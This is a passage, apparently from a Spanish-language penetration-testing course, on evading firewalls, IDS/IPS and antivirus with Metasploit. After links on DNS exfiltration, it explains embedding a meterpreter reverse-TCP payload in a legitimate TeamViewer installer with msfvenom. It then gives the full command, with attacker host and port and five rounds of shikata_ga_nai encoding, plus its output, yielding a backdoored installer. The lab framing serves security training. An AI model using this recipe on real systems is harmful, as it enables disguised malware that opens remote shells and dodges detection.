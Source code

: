 - [Informe post mortem del gobierno de los Estados Unidos sobre el hack de Equifax](https://www.zdnet.com/article/us-government-releases-post-mortem-report-on-equifax-hack/)
- [Protección de la exfiltración DNS](https://www.darkreading.com/risk/tips-to-protect-the-dns-from-data-exfiltration/a/d-id/1330411)
- [Detener los datos exfil y malware se extiende a través de DNS](https://www.infoblox.com/wp-content/uploads/infoblox-whitepaper-stopping-data-exfiltration-and-malware-spread-through-dns.pdf)

Volviendo a MSFConsole, su capacidad de mantener ahora los túneles encriptados por AES, junto con la característica de Meterpreter de correr en la memoria, aumenta nuestra capacidad por un margen. Sin embargo, todavía tenemos el problema de lo que sucede con una carga útil una vez que llega a su destino, antes de que se ejecute y coloque en la memoria. Este archivo podría ser realizado por su firma, coincidir con la base de datos y bloqueado, junto con nuestras posibilidades de acceder al objetivo. También podemos estar seguros de que los desarrolladores de software AV están buscando módulos y capacidades MSFConsole para agregar el código y los archivos resultantes a su base de datos de firma, lo que resulta en la mayoría, si no todas las cargas predeterminadas, el software AV apunta de inmediato hoy en día.

Estamos de suerte porque`msfvenom`Ofrece la opción de usar plantillas ejecutables. Esto nos permite usar algunas plantillas preestablecidas para archivos ejecutables, inyectarles nuestra carga útil (sin juego de palabras) y usar`any`ejecutable como una plataforma desde la cual podemos lanzar nuestro ataque. Podemos incrustar el shellcode en cualquier instalador, paquete o programa que tenemos a mano, ocultando el código de shell de la carga útil dentro del código legítimo del producto real. Esto ofusca enormemente nuestro código malicioso y, lo que es más importante, reduce nuestras posibilidades de detección. Existen muchas combinaciones válidas entre archivos ejecutables reales y legítimos, nuestros diferentes esquemas de codificación (y sus iteraciones) y nuestras diferentes variantes de shellcode de carga útil. Esto genera lo que se llama ejecutable trasero.

Eche un vistazo al fragmento a continuación para comprender cómo MSFVENOM puede incrustar las cargas útiles en cualquier archivo ejecutable:

Firewall e IDS/IPS evasión

```
xnoxos@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 27 (iteration=0)
x86/shikata_ga_nai succeeded with size 54 (iteration=1)
x86/shikata_ga_nai succeeded with size 81 (iteration=2)
x86/shikata_ga_nai succeeded with size 108 (iteration=3)
x86/shikata_ga_nai succeeded with size 135 (iteration=4)
x86/shikata_ga_nai chosen with final size 135
Payload size: 135 bytes
Saved as: /home/user/Desktop/TeamViewer_Setup.exe

```

Firewall e IDS/IPS evasión

```
xnoxos@htb[/htb]$ lsPictures-of-cats.tar.gz  TeamViewer_Setup.exe  Cake_recipes

```
